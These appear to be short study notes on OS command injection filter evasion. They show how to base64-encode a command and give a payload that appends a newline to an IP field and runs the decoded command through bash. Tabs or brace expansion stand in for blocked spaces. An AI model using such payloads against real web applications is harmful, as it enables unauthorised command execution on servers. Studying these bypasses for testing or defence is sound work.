



Linux: Base64 encoding/Decoding
1. Encoding
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
2. Decoding
◇ Between the original command and the payload we have inserted the Newline (\n or %0a)
◇ Instead of the spaces(+) that are blocked we have used the Tabs (%09) or the Brace Expansion
127.0.0.1%0Abash<<<$(base64%09-d%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
▪ New Line \n + Tabs (%09)
 ▪ New Line %0a + Tabs (%09)
 ▪ New Line %0a + Brace Expansion {command1,command2}
